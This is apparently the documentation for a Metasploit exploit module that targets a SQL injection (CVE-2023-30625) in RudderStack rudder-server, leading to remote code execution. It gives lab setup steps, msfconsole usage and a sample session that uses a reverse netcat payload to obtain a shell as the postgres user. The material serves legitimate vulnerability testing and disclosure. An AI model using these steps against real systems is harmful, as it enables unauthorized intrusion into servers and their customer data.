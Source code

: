 ## Vulnerable Application

RudderStack is an open-source Customer Data Platform (CDP) that helps organizations collect,
unify, and route customer data to various destinations.
A Customer Data Platform is a software system that centralizes and manages customer data from multiple sources,
providing a unified view of customer interactions and behaviors.
RudderStack is an independent, stand-alone system with a dependency only on the database (PostgreSQL).
Its backend is written in Go with a rich UI written in React.js.

This Metasploit exploit module targets a SQL injection vulnerability (CVE-2023-30625) in RudderStack's `rudder-server`,
an open-source Customer Data Platform (CDP). The vulnerability affects versions of `rudder-server` before 1.3.0-rc.1.
By exploiting this flaw, an attacker can execute arbitrary SQL commands,
potentially leading to Remote Code Execution (RCE) since the `rudder` role in PostgreSQL has superuser permissions by default.
This issue was discovered and reported by GHSL team member @Kwstubbs (Kevin Stubbings).
Check [here](https://securitylab.github.com/advisories/GHSL-2022-097_rudder-server/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Clone the repository `git clone https://github.com/rudderlabs/rudder-server`
2. Switch to version 1.2.5 `cd rudder-server && git checkout v1.2.5`
3. At this step you'll need to obtain a workspace token from the RudderStack platform.
[Check](https://www.rudderstack.com/docs/get-started/rudderstack-open-source/data-plane-setup/docker/#workspace-token) for instructions.
4. After obtaining the workspace token adjust your `./build/docker.env` file.
5. Change `DEST_TRANSFORM_URL=http://d-transformer:9090` to `DEST_TRANSFORM_URL=http://transformer:9090` inside `./build/docker.env` file.
6. Finally run `docker compose up` at the root directory of the project git.

After these steps the rudder-server API will be expopsed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/multi/http/rudder_server_sqli_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`
6. You should get a shell.

## Options

### API_USER
The Rudder API basic authentication username (Default: 'key'). (Optional)

### API_PASS
The Rudder API basic authentication password. (Optional)

## Scenarios

```
msf6 > use exploit/multi/http/rudder_server_sqli_rce 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/http/rudder_server_sqli_rce) > set rhosts 192.168.1.20
rhosts => 192.168.1.20
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lport 4444
lport => 4444
msf6 exploit(multi/http/rudder_server_sqli_rce) > set ForceExploit true
ForceExploit => true
msf6 exploit(multi/http/rudder_server_sqli_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] Detected rudder version: Unknown
[*] Triggering RCE via crafted SQL query...
id
uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)

```
